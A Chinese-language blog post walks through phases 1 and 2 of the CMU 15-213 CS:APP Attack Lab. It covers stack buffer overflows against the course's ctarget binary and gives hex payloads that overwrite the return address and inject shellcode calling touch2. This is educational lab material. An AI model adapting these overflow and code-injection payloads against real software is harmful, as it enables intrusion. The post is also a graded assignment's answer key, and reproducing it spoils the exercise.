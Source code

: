 ```yaml
---
layout: post
title: "03 attack lab"
category: Csapp Lab(cmu 15-213)
---
```


CSAPP attack lab

# Attack_LAB

![image-20231219160940326](/assets/Attack_LAB/image-20231219160940326.png)

```
1.执行文件变成汇编
objdump -d ./ctarget > ctarget.s

2.有时候需要注入汇编代码，因此需要把想要的汇编代码需要转成二进制
gcc -c ans.s
objdump -d ans.o > ans.txt

3.结果，答案写在 exeample.txt，需要通过./hex2raw去注入
./hex2raw < exeample.txt | ./ctarget -q
```



## phase_1

```c
test(){
	getbuf()
     xxx
	return
}
通过溢出
1. test()->touch1()
```

原本getbuf之后，根据ret地址，执行xxx代码，目的是通过getbuf溢出修改ret地址，走到目标代码

gdb调试ctarget，使用-q 不连接服务器

![image-20231219161220379](/assets/Attack_LAB/image-20231219161220379.png)

test汇编

![image-20231219161110542](/assets/Attack_LAB/a1.png)

test调用 call getbuf 之后栈帧结构，由于getbuf执行完之后，需要执行下一行代码（0x401976），所以把代码地址保存再栈上面如下0x5561dca0 - 0x5561dca2,一个地址保存一字节，小端存储（低地址0x5561dca0保存最低位76）

![image-20231219161110542](/assets/Attack_LAB/attack0.png)

可以验证

![image-20231219170202518](/assets/Attack_LAB/attack2.png)

getbuf汇编

![image-20231219161053446](/assets/Attack_LAB/a4.png)



进入getbuf，call gets之前的栈帧结构

可以看到rsp，往下40(0x28)个单位，变成了0x5561dc78

![image-20231219161053446](/assets/Attack_LAB/a3.png)



走到gets方法 输入0123456789查看栈的样子,从rsp（0x5561dc78）作为起点，开始填充我们输入的内容

![image-20231219170202518](/assets/Attack_LAB/a5.png)

可以验证

![image-20231219170202518](/assets/Attack_LAB/attack1.png)

所以我们要输入43的字符，40个填充buff缓冲区，剩下3个40 17 c0填充ret指向touch1的地址

由于提示读取文件所以要得到0x4017c0,文本中应该是 

c0 17 40

![image-20231219170202518](/assets/Attack_LAB/image-20231219170202518.png)

所以答案,保存在ctarget1.txt中

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```

![image-20231219170412388](/assets/Attack_LAB/image-20231219170412388.png)

## phase_2

```c
test(){
	getbuf()
     xxx
	return
}
通过溢出
1. test()->touch2()

2. 比较cookie和val是否相同
void touch2(unsigned val)
{
  vlevel = 2; /* Part of validation protocol */
  if (val == cookie)
  {
    printf("Touch2!: You called touch2(0x%.8x)\n", val);
    validate(2);
  }
  else
  {
    printf("Misfire: You called touch2(0x%.8x)\n", val);
    fail(2);
  }
  exit(0);
}
```

已知cookie在cookie.txt中（0x59b997fa）

val的参数是%rdi中，

想要让val==cookie, 因此需要手动给val赋值为 0x59b997fa，即（mov 0x59b997fa  %rdi）

为了实现这个步骤，不能直接修改之前的ret，跳入touch2，需要先mov 0x59b997fa  %rdi之后再进入touch2

思路是，先修改ret到mov 0x59b997fa  %rdi的位置，再跳到touch2

先ret到缓冲区，再缓冲区注入汇编代码

```
movq $0x59b997fa,%rdi
pushq $0x004017ec  #touch
retq   #ret：弹出rsp指向的地址，作为下一条要执行代码的地址。会让rsp+8
```

注入之后的代码

![image-20231220112823637](/assets/Attack_LAB/p1a2.png)



要执行的目标代码



![image-20231220110724164](/assets/Attack_LAB/image-20231220110724164.png)

把汇编转化为机器代码（十六进制的表示）

![image-20231220113007901](/assets/Attack_LAB/image-20231220113007901.png)

48 c7 c7 fa 97 b9 59 68 ec 17 40 00  c3

填入buff文本，

![image-20231220112616836](/assets/Attack_LAB/image-20231220112616836.png)

并生成十六进制文件

![image-20231220112720748](/assets/Attack_LAB/image-20231220112720748.png)

执行代码

![image-20231220112751906](/assets/Attack_LAB/image-20231220112751906.png)



![image-20231220113837068](/assets/Attack_LAB/image-20231220113837068.png)
